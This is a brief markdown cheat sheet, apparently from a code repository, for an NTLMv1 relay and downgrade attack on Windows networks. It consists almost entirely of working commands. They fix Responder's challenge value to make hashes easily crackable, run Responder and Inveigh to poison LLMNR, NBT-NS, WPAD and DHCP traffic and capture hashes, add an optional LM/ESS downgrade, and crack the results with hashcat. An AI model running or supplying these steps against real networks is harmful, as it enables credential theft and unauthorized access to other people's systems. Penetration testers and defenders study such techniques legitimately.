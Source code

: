 # NTLMv1 Relay and Downgrade Attack

### 1) Change the authentication challenge to 1122334455667788 in the Responder conf file in order to obtain an easily crackable hash if NTLMv1 is used.

    sed -i 's/ Random/ 1122334455667788/g' Responder/Responder.conf

### 2) Catch all the possible hashes on the network (coming via LLMNR, NBT-NS, DNS spoofing, etc):

##### Responder with WPAD injection, Proxy-Auth, DHCP, DHCP-DNS and verbose

    responder -I interface_to_use -wPdDv

##### Inveigh with *

    Invoke-Inveigh -Challenge 1122334455667788 -ConsoleOutput Y -LLMNR Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y

### 2.5) # --disable-ess will disable the SSP, not always useful (Optional)

    responder -I interface_to_use -wdDv --lm --disable-ess

### 3) Crack hash with hashcat

    hashcat -m 5500 -a 0 HASH /usr/share/wordlists/rockyou.txt

IF NetNTLMv2

    hashcat -m 5600 -a 0 HASH /usr/share/wordlists/rockyou.txt
